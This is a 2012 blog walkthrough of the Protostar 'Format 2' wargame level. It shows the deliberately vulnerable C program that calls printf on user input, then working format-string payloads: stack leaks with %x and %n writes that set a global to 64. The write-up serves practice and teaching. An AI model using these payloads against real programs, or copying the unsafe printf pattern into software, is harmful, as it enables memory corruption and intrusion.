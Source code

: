 ```yaml
---
title: "Exploit Exercises - Protostar Format 2"
date: "2012-01-31T05:13:00-05:00"
comments: true
highlight: "true"
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-format-2.html"
---
```


Continuing from where we left off, we arrive at [Format 2](http://exploit-exercises.com/protostar/format2).  It presents us with the following code: 

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);
 printf(buffer);

 if(target == 64) {
  printf("you have modified the target :)\n");
 } else {
  printf("target is %d :(\n", target);
 }
}

int main(int argc, char **argv)
{
 vuln();
}
```

This challenge seems very similar to Format 1, in all but 2 ways:

1. The input is done via a fgets() instead of from the program arguments.
2. Instead of allowing just any change, it specifically requires "target" to be equal to "64".

We'll start pretty much the same way as last time, spamming "%x": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "AAAAAAAA" . "%x."x150'` | ./format2
AAAAAAAA200.b7fd8420.bffff624.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.a2e78.b7eada75.b7fd7ff4.80496b0.bffff7c8.8048338.b7ff1040.80496b0.bffff7f8.80484f9.b7fd8304.b7fd7ff4.80484e0.bffff7f8.b7ec6365.b7ff1040.bffff7f8.80484c6.80484e0.0.bffff878.b7eadc76.1.bffff8a4.bffff8ac.b7fe1848.bffff860.ffffffff.b7ffeff4.8048285.1.bffff860.b7ff0626.
target is 0 :(
```

This time, however, it seemed MUCH quicker to get the "41414141", only 4 words.  Let's verify: 

```
user@protostar:/opt/protostar/bin$ ./format2
AAAA%x%x%x%x
AAAA200b7fd8420bffff62441414141
target is 0 :(
```

So we're getting to a pretty good point, let's go ahead and find the memory address for "target": 

```
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep target
080496e4 g     O .bss   00000004              target
```

Next, let's put that address in, replacing the "AAAA": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%x%x%x%x"'` | ./format2
200b7fd8420bffff62480496e4
target is 0 :(
```

The address seems to be the last word, without any problems.  So if we convert the last "%x" to "%n", it should overwrite that address in memory with the count of characters printed: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%x%x%x%n"'` | ./format2
200b7fd8420bffff624
target is 23 :(
```

Unfortunately, only 23 characters were written.  We can increase that number artificially by just changing the format string from "%x" to "%44x".  This pads the string to be 44 characters long: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%44x%x%x%n"'` | ./format2
                                         200b7fd8420bffff624
you have modified the target :)
```

That's pretty much how it's done. 

And again, as bonus, if you want to use Direct Argument Access, you can simply do:

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%7\\\$60x%4\\\$n"'` | ./format2
                                                       a6e24
you have modified the target :)
```
